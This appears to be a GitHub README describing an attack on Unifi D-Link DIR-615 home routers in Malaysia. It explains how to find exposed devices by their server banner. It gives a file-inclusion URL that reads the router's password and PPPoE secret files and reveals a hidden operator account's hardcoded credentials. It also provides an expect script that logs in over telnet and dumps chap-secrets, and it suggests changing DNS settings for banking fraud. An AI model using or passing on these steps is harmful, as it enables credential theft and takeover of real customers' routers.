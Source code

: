 # UniFI-Dlink-DIR-615

Search for the Unifi Dlink DIR-615 router's Server details = Mathopd/1.5p6 country:MY
The country filter is only for registered user so make sure you have been registered

![Image 1](http://i.imgur.com/jtOlRoc.png "Image 1")

Choose any router you want

To get the user's creds, enter the following appendage = model/__show_info.php?REQUIRE_FILE=/var/etc/httpasswd

![Image 2](http://i.imgur.com/mNPyVWR.png "Image 2")

and poof !

![Image 3](http://i.imgur.com/1ohSIfy.png "Image 3")

As you can see, TM's operator add another hidden account under different name from the previous version
The good news is every D-Link router with copyright 2011 and above is using the same username and password as above while the D-Link router with the copyright 2010 and below is using username operator with different password.
So you guys need to enumerate the creds for every each routers or you can just include the chap-secrets file in the url instead of getting the httpassword first (/etc/ppp/chap-secrets).

# Leveraging the Attack

Actually the main reason for me to include /etc/ppp/httpassword is to let advanced attacker to make use of those credentials. For example, by changing the router's DNS server and set up a malicious DNS server with fake pages. This could lead to more dangerous risks such as online banking fraud, CSRF, and etc.

![Image 4](http://cdn.arstechnica.net/wp-content/uploads/2014/03/csrf-router-attack.jpg "Image 4")

# Getting PPPoE username and password

![Image 4](http://i.imgur.com/KngStCQ.png "Image 4")

Go to the Maintenance tab and enable the Remote Telnet from WAN, then save the settings
No reboot required

Open up a terminal and just telnet to the IP

```bash
telnet <ip> <port>
cat /etc/ppp/chap-secrets
```

And tadaa ! there you go the username and password

To automate the telnet part, use this simple script

```bash
#!/usr/bin/expect
set timeout 20
set ip [lindex $argv 0]
spawn telnet $ip 23
expect "login: "
send "Management\n"
expect "Password: "
send "TestingR2\n"
expect "# "
send "cat /etc/ppp/chap-secrets\n"
send "exit\n"
interact
```

Usage: ./unifi-pppoe-creds <ip>

Credits goes to: [link 1](http://seclists.org/bugtraq/2013/Dec/11) and [link 2](https://www.keithrozario.com/2013/12/unifi-d-link-routers-hacked.html)
